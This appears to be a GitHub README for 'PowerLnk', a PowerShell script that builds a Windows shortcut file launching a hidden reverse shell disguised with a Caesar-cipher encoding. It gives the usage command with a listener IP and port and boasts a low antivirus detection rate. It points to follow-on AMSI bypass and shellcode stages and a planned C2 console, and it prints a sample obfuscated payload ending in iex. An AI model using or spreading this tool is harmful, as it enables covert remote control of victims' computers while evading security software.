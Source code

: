 # PowerLnk
generates a .Lnk file that executes a reverse shell in powershell using a caesar cipher as obfuscation, starts minimized then quickly hides the window. Tool is intended for strictly lawful purposes only. I'm not responsible for how it is used.

# Useage
script takes two parameters -ip and -port where ip and port is the device you are listening on

./PowerLnk.ps1 -ip 192.168.1.5 -port 443

# Current detection

scored a 4/62 on virustotal, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.


I'm working on a python server side console for c2


code executed will look something like ```[text.encoding]::ascii.getstring([type].([string]::new([char[]](('ewwiqfp}'|fhx).Bytes|%{$_-4}))).([string]::new([char[]](('kixx}ti'|fhx).Bytes|%{$_-4})))(([string]::new([char[]](('W}wxiq2Gsrzivx'|fhx).Bytes|%{$_-4}))))::([string]::new([char[]](('jvsqfewi:8wxvmrk'|fhx).Bytes|%{$_-4})))(([string]::new([char[]](('NLk=OI9ph}5T]qtp]7UkfqZ4PrRz]6xphLQyhKR{]6|t^[94OGM|SXMyQX]8PnIyQn]mPHU4Q}otPqhphLR4gqZlfWktS5xmi\Vp[55hNKM=QG8yRnY5Q~Z<N\w{jXx7eKpw^WksNKo=NLkygqZl^Gko]m{{PGVmPo|pfqh4eGotP[9pMHEti}VoTWlfg7p~hKZxPrVpiLUy^[9nf6VtfqhhSntr^\VpfqRz^Kpy^}k}QHI}R}otPqhphKN9hKZ~OGkse[Z8OGlS^\gxX6Nu^[R4MG54MLVpiLUy]\Rne[ppfqRz^Kpy^}oy^6Z4g7V}e[9rOGVmPHEwNKotOXM/NnJ<f7Z4P\R4gqpy^}ovOLF7^GoygKJ4eGwmTmEmOWo;NLkyh7NthKYsNKUwQG{o^G9Q^[9rhKktS}V8Pq^wh\RsOGp='|fhx).Bytes|%{$_-4})))))|i`ex```
